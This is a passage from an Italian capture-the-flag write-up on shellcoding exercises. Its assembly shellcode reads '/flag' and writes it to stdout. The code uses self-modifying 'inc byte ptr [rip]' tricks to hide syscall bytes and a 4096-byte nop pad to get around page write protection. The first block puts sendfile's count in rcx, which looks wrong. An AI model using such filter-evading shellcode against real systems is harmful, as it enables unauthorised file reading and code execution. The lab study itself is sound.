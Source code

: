 ```
.intel_syntax noprefix
.global _start

_start:

    jmp pushFlag

    code:

    #open
    pop rax
    mov rdi, rax
    xor rsi, rsi
    xor rdx, rdx
    mov rax, 2
    inc byte ptr [rip]
    .byte 0x0e, 0x05

    #sendfile
    mov rsi, rax
    mov rax, 0x28
    mov rdi, 1
    mov rdx, 0
    mov rcx, 0x64
    inc byte ptr [rip]
    .byte 0x0e, 0x05

pushFlag:
    call code
    .string "/flag"

```

## Esercizio 6
Questo esercizio utilizza la stessa problematica dello scorso esercizio, in più aggiunge un'altra problematica "Removing write permissions from first 4096 bytes of shellcode."
Che può essere semplicemente inserendo 4096 instruzioni `nop` prima dell'esecuzione del nostro codice

```
.intel_syntax noprefix
.global _start

_start:
    .fill 4096, 1, 0x90

    code:
    lea rdi, [rip + flag]
    xor rdx, rdx
    xor rsi, rsi
    mov rax, 2
    inc byte ptr [rip]
    .byte 0x0e, 0x05

    mov rsi, rax
    mov rdi, 1
    xor rdx, rdx
    mov r10, 100
    mov rax, 40
    inc byte ptr [rip]
    .byte 0x0e, 0x05

    mov rax, 60
```
